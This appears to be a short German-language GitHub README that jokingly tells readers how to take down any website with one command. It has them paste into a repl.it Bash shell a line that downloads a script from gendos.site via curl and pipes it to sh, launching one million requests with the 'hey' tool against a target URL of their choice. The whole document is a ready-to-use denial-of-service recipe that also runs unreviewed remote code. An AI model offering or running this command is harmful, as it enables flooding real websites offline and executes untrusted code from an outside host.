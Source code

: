 # Hoppsgenommen asa7be

![Hoppsgenommen du lappen](./g102.png)

Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite in einem command hopps nimmt?

Dann bist du hier genau richtig !

Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.
